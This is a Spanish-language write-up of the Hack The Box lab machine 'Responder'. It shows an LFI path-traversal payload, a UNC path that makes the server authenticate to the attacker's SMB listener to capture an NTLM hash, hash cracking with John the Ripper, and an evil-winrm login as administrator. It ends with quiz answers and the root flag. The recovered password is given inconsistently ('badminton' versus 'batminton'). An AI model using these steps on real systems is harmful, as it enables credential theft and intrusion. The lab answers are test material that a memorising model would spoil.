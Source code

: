 ```yaml
---
layout: single
title: Responder - Hack The Box
date: 2022-06-15 15:00:00
classes: wide
categories:
  - hackthebox
  - infosec
tags:
  - responder
  - web
  - tools
---
```


# Responder - HackTheBox

![[Pasted image 20220427153530.png]]

Realizamos un escaneo de ==nmap== para identificar los puertos abiertos y servicios.

```
nmap -v -p- --min-rate 5000 -sV -sC {target ip}
```

Resultado del escaneo:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 15:41 CDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Nmap scan report for 10.129.39.225
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.94 seconds
```

Visitamos el servidor web corriendo en el puerto 80 mediante el navegador (Firefox).

![[Pasted image 20220427161647.png]]
![[Pasted image 20220427161628.png]]

Nos redirige a una pagina web llamada **unika.htb**. Debido a que nos encontramos dentro de la misma red que la máquina objetivo y que ese dominio no esta registrado en un servidor DNS, procedemos a agregar la ip y el nombre de dominio al archivo **/etc/hosts** para poder visualizar la pagina web.

![[Pasted image 20220427162215.png]]

Ahora ya podemos visualizarla.

![[Pasted image 20220427162345.png]]

Navegando por la página nos encontramos con un apartado para cambiar el idioma, si nos fijamos en la url se ve como se incluye un archivo llamado **french.html** mediante **index.php**

![[Pasted image 20220427162745.png]]

Vamos a pasarle al parámetro "page" la siguiente cadena para saber si es vulnerable a **LFI** y como consecuencia a **path traversal**.

```
../../. ./../../../../../windows/system32/drivers/etc/hosts
```

![[Pasted image 20220427163537.png]]

![[Pasted image 20220427163432.png]]

Como podemos ver existe una vulnerabilidad en esta web.
Regresando al escaneo, el puerto **5985** se encuentra abierto lo que quiere decir que **WinRM** esta disponible. Podemos aprovecharnos del **LFI** de la página web para capturar el **hash NTLM** de la máquina con ayuda de la herramienta **responder**.

Vamos a ejecutar la herramienta con el siguente comando.

```
sudo responder -I tun0

(tun0 es la interfaz de red de nuestra máquina)
```

![[Pasted image 20220427170550.png]]

Verificamos que el servidor **SMB** este activado.

![[Pasted image 20220427170523.png]]

Mientras **responder** esta esperando una conexion, nos dirigimos a la URL de la página web e ingresamos la siguiente cadena en el parámetro page.

```
//{our machine ip}/somefile
```

Esto para que la página incluya un "recurso" de nuestro servidor **SMB** y se establezca una conexión.

![[Pasted image 20220427171130.png]]

Vemos en la terminal que se ha capturado el **hash NTLM**.

![[Pasted image 20220427171250.png]]

Guardamos el hash en un archivo de texto y lo desciframos con ayuda de la herramienta **John The Ripper** .

![[Pasted image 20220427171705.png]]

```
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

![[Pasted image 20220427172056.png]]

A continuación utilizamos la herramienta **evilwinrm** para autenticarnos en el sistema con las credenciales obtenidas.

```
evil-winrm -i {target ip} -u administrator -p badminton
```

![[Pasted image 20220427172504.png]]

Ahora solo queda buscar el archivo ==flag.txt==. Este se encuentra en la ruta `C:\Users\mike\Desktop`.

![[Pasted image 20220427172844.png]]

## Preguntas

1. ¿Cuántos puertos TCP están abiertos en la máquina?
   **3**

2. Al visitar el servicio web utilizando la dirección IP, ¿cuál es el dominio al que se nos redirige?
   **unika.htb**

3. ¿Qué lenguaje de secuencias de comandos se utiliza en el servidor para generar páginas web?
   **php**

4. ¿Cuál es el nombre del parámetro de URL que se usa para cargar diferentes versiones de idioma de la página web?
   **page**

5. ¿Cuál de los siguientes valores para el parámetro `page` sería un ejemplo de explotación de una vulnerabilidad de inclusión de archivo local (LFI): "french.html", "//10.10.14.6/somefile", "../../. ./../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
   **../../. ./../../../../../windows/system32/drivers/etc/hosts**

6. ¿Qué significa NTLM?
   **New Technology LAN Manager**

7. ¿Qué indicador usamos en la utilidad Responder para especificar la interfaz de red?
   **-I**

8. Hay varias herramientas que aceptan un desafío/respuesta de NetNTLMv2 y prueban millones de contraseñas para ver si alguna de ellas genera la misma respuesta. A una de estas herramientas se la suele denominar `john`, pero el nombre completo es ¿cuál?.
   **John The Ripper**

9. ¿Cuál es la contraseña para el usuario administrador?
   **batminton**

10. Usaremos un servicio de Windows (es decir, que se ejecuta en la caja) para acceder de forma remota a la máquina Responder usando la contraseña que recuperamos. ¿En qué puerto TCP escucha?
    **5985**

Root Flag:
**ea81b7afddd03efaa0945333ed147fac**

![[Pasted image 20220427134218.png]]
